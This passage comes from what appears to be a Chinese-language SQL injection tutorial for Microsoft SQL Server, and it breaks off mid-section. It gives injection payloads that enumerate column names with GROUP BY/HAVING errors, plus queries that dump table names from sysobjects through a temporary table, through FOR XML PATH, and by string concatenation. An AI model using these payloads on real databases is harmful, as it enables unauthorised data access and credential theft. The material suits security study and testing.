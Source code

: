 **实例：**



```
query: SELECT username, password FROM Users WHERE id = '1';
1' HAVING 1=1                                       -- 错误
1' GROUP BY username HAVING 1=1--                   -- 错误
1' GROUP BY username, password HAVING 1=1--         -- 正确
Group By可以用来测试列名
```

**获取表名**

[![](https://p3.ssl.qhimg.com/t01dc40766d2d4a4cdb.png)](https://p3.ssl.qhimg.com/t01dc40766d2d4a4cdb.png)

这里使用的U表示用户表，还有视图和存储过程分别表示为    U = 用户表, V = 视图 , X = 扩展存储过程

**获取列名**

[![](https://p3.ssl.qhimg.com/t012367b5e92d8028e6.png)](https://p3.ssl.qhimg.com/t012367b5e92d8028e6.png)

**接收多条数据**

**临时表**

除了上述的查询方式在MSSQL中可以使用临时表来查看数据,步骤如下



```
//1.创建临时表/列和插入数据：
BEGIN DECLARE @test varchar(8000) SET @test=':' SELECT @test=@test+' '+name FROM sysobjects WHERE xtype='U' AND name&gt;@test SELECT @test AS test INTO TMP_DB END;
//2.转储内容：
SELECT TOP 1 SUBSTRING(test,1,353) FROM TMP_DB;
//3.删除表：
DROP TABLE TMP_DB;
```

**XML列数据**

```
SELECT table_name FROM information_schema.tables FOR XML PATH('')
```

**字符串连接符**

相对于MySQL来说少了两个函数,有如下方式连接:



```
SELECT CONCAT('a','a','a'); (SQL SERVER 2012)
SELECT 'a'+'d'+'mi'+'n';
```

**条件语句&amp;时间**

**条件语句**
